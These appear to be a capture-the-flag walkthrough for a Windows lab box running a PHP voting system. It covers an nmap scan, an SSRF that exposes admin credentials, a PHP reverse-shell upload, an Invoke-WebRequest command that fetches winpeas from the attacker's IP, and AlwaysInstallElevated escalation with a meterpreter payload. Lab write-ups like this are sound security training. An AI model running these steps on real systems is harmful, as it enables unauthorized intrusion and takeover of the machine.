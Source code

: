 #### NMAP 

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, JavaRMI, LANDesk-RC, LDAPBindReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    Host '10.10.14.172' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden


https not working

HTTP

love.htb = voting system
staging.love.htb = secucre file cecker

open staging.love.htb we have option to enter url lets tried with reverse shell but not working
next
we got 5000(unusual-tcp port) lets try with this http://127.0.0.1:5000 its works we got voting systems admin crends
after logged in there file upload place with this yes reverse shell..........
dont go with usual linux rev shell try windows rev shell find github
https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/minified/php_reverse_shell_mini.php 

reverse shell boom....

lets open find user.txt

powershell
dir && cd users && cd Desktop && cat user.tx

privsec

Transfer winpeas local machine to box 

in windows Invoke-WebRequest this cmd works as like as inux wget

Invoke-WebRequest http://10.10.14.172:8000/winpeas.exe -OutFile winpeas.exe

After runing winpeas 

we got AlwaysInstallElevated its enabled?

What is this? AlwaysInstallElevated?

For this purpose, the AlwaysInstallElevated policy feature is used to install an MSI package file with elevated (system) privileges. This policy is enabled in the Local Group Policy editor; directs the Windows Installer engine to use elevated permissions when it installs any program on the system. This method can make a machine vulnerable posing a high-security risk because a non-administrator user can run installations with elevated privileges and access many secure locations on the computer.

steps;;

create a meterpreter reverse pyload.exe and start reverse listerner
then send paload.exe to your victim box

then .\payload.exe trigger and ckeck lister got meterpreter shell 

now run meterpreter as background then use AlwaysInstallElevated metasploit exploit then set session 1 and set lhost tun0 exploit


boom got roottttttttt



